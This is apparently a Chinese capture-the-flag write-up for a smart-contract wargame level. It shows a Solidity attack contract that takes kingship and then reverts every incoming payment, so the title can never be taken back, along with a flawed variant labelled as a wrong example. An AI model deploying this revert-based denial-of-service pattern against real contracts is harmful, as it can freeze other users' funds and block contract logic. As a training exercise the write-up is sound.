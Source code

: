 首先查看一下当前的prize，是0.001ether

await web3.utils.fromWei(await contract.prize())

难点不在于如何获取国王，而在于如何保证国王不被重新夺回，因此这里想到如果交易一直不被认可，就会被一直revert，旧国王就一直不会被替代。

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
​
contract AttackKing{
    address public target;
​
    constructor(address payable _target)
    {
        target = _target;
    }
​
    function attack() public payable 
    {
        (bool ok, ) = target.call{value: msg.value}("");
        require(ok, "initial claim failed");
    }
    receive() external payable 
    {
        revert("king");
    }
    fallback() external payable {
        revert("king");
    }
}
​
```

### **错误示例：**

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
​
contract AttackKing{
    address public target;
​
    constructor(address payable _target)
    {
        target = _target;
    }
​
    function attack() public 
    {
        (bool ok, ) = target.call{value: 0.002 ether}("");
        require(ok, "initial claim failed");
    }
    receive() external payable 
    {
        revert("king");
    }
    fallback() external payable {
        revert("king");
    }
}
```
